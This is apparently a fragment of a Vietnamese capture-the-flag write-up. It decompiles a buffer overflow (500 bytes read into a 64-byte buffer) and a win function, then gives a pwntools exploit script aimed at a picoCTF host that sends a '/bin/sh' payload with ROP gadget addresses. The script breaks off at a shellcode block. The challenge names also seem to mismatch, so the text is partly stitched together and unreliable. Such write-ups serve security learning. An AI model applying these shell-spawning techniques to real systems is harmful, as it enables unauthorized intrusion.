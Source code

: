 - các hàm còn lại cũng check tương tự 

- chamber_of_eternity : nhìn sơ qua thì thấy luôn có `bof` và có luôn 1 hàm win ở bài này  

```c
int chamber_of_eternity()
{
  char s[64]; // [rsp+0h] [rbp-40h] BYREF

  puts("\nLevel 5: The Chamber of Eternity");
  puts(
    "A vast chamber bathed in celestial light. The Key of Eternity hovers at its center, pulsing with cosmic energy, awai"
    "ting the one deemed worthy.");
  puts("A single light illuminates the Key of Eternity.");
  printf("You are worthy of the final treasure, enter the final key for the win:- ");
  getchar();
  fgets(s, 500, stdin);
  return puts("GGs");
}
```

- wintreasure: vậy đơn giản chỉ là vượt qua các hàm check và ret2win

```c
int winTreasure()
{
  char s[72]; // [rsp+0h] [rbp-50h] BYREF
  FILE *stream; // [rsp+48h] [rbp-8h]

  if ( !eligible )
    return puts("No flag for you!");
  stream = fopen("flag.txt", "r");
  fgets(s, 64, stream);
  return puts(s);
}
```

exp: 

```python
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./handoff',checksec=False)
context.arch = 'amd64'
#p = process()
p = remote('shape-facility.picoctf.net', 60233)

bss = 0x404f00
input()
pivot = 0x00000000004013D5
jmp  = 0x000000000040116c
pop_rdi = 0x00000000004014b3

for i in range(9):
    p.sendline(b'1')
    p.sendline(b'a')

p.sendline(b'1')
payload = b'/bin/sh\x00'
p.sendline(payload)
input()
p.sendline(b'3')

shellcode = asm('''
```